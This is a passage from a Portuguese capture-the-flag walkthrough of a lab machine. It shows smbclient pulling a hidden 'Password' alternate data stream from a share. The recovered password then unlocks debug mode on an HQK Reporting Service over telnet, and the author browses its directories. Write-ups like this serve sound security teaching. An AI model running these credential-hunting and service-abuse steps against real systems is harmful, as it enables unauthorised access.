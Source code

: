 write_time:     Thu Aug  8 07:08:17 PM 2019 EDT
change_time:    Thu Aug  8 07:08:17 PM 2019 EDT
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes
smb: \C.Smith\HQK Reporting\> 
{% endhighlight %}

Podemos ver que ele possui outro stream de dados chamado Password, vamos tentar baixa-lo:

{% highlight bash %}
smb: get "Debug Mode Password.txt":password
getting file \C.Smith\HQK Reporting\Debug Mode Password.txt:password of size 15 as Debug Mode Password.txt:password (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
{% endhighlight %}

Podemos ver o seguinte conteudo: "WBQ201953D8w"

Vamos tentar voltar ao HQK:

{% highlight bash %}
$ telnet 10.10.10.178 4386
Trying 10.10.10.178...
Connected to 10.10.10.178.
Escape character is '^]'.

HQK Reporting Service V1.2

>debug xRxRxPANCAK3SxRxRx

Invalid password entered
>debug WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available
>session

--- Session Information ---

Session ID: 26ecec2e-c357-4860-8f29-d8045141cb6a
Debug: True
Started At: 6/2/2020 4:19:47 AM
Server Endpoint: 10.10.10.178:4386
Client Endpoint: 10.10.16.87:33366
Current Query Directory: C:\Program Files\HQK\ALL QUERIES

>setdir ..

Current directory set to HQK
>list

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[DIR]  ALL QUERIES
[DIR]  LDAP
[DIR]  Logs
[1]   HqkSvc.exe
[2]   HqkSvc.InstallState
[3]   HQK_Config.xml

Current Directory: HQK
>cd LDAP

Unrecognised command
>setdir LDAP

Current directory set to LDAP
>list

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command
